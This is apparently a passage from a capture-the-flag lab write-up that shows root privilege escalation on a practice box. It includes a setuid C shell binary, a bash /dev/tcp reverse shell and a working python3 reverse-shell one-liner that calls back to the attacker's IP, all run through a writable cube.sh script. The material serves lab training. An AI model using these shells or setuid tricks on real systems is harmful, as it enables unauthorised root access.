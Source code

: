 We could use this `c` code :
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
   setuid( 0 );
   system( "/bin/bash" );

   return 0;
}
```

But we could also simply spawn a reverse shell from the `cube.sh` script:
```
bash -i >& /dev/tcp/10.10.226.241/8888 0>&1
```

Hmmm... This didn't work, doesn't even connect.

Hmm sooo, couple other ways to do this, we could have just appended a line into crontab and get a reverse shell that way.

Decided to compile the c binary on my machine (gcc not available on the box), send it to the box.
Then in `cube.sh` I just set the setuid bit with `chmod +s /tmp/exp`  and set the owner to root with `chown root /tmp/exp` and launch the binary.
And we got rooot

Sooo, answering the questions for the challenge, they actually suggested using a python reverse shell.

For some reason the bash version didn't work but putting this in the `cube.sh` got us a reverse shell
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.226.241",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

No flag to submit. Only this ascii art in `/root/flag.txt`
```
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.
```